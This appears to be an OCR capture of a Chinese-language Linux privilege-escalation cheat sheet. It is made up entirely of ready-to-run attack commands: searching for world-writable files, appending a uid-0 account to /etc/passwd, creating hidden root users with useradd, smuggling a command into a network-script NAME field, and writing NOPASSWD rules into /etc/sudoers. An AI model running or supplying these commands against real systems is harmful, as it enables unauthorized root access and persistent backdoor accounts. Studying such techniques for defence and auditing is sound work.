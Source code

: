   #### 列出系统中可写文件
  	>find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
	>find / -perm -2 -type f 2>/dev/null
	>find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
  #### passwd文件
	$ls –lh /etc/passwd 若是任何用户可读写
	$perl -le 'print crypt("password@123","addedsalt")' 生成密码或php -r "print(crypt('aarti','123') . \"\n\");"或python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'
	$echo "test:advwtv/9yU5yQ:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd
	一条命令添加root用户
	>useradd -p `openssl passwd -1 -salt 'user' 123qwe` -u 0 -o -g root  -G root -s /bin/bash -d /home/user venus
	用户名venus 密码123qwe
	>useradd newuser;echo "newuser:password"|chpasswd
	>echo "admin:x:0:0::/:/bin/sh" >> /etc/passwd
	>passwd admin修改密码
	或
	>useradd newuser;echo "newuser:password"|chpasswd
	>useradd -p `openssl passwd 123456` guest
	>useradd -p "$(openssl passwd 123456)" guest
	>useradd newuwer;echo -e "123456\n123456\n" |passwd newuser
  #### /etc/sysconfig/network-scripts/
  	NAME=Network /bin/id  &lt;= 注意空格
	ONBOOT=yes
	DEVICE=eth0

	EXEC :
	./etc/sysconfig/network-scripts/ifcfg-1337
  #### sudoers
  	echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

	无需密码使用sudo
	echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
	echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers